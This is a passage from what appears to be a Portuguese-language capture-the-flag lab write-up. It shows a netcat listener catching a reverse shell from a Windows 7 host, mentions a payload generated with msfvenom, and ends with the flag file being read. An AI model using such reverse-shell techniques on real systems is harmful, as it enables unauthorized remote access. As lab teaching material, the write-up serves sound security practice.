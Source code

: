 Logo recebi o shell reverso na outra prota "1111" configurada no payload do msfvenon:

<pre><font color="#5EBDAB">┌──(</font><font color="#277FFF"><b>aluno㉿aluno</b></font><font color="#5EBDAB">)-[</font><b>~</b><font color="#5EBDAB">]</font>
<font color="#5EBDAB">└─</font><font color="#277FFF"><b>$</b></font> <font color="#5EBDAB">nc</font> <font color="#9755B3">-lnvp</font> 1111 
Listening on 0.0.0.0 1111
Connection received on 192.168.90.80 49898
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32&gt;
</pre>

Sendo assim, bastou encontrar a flag:

<pre>
C:\Users\admin&gt;type Desktop\flag.txt
type Desktop\flag.txt
<font color="GOLD">CTF{br484-5e}</font>
</pre>

fim
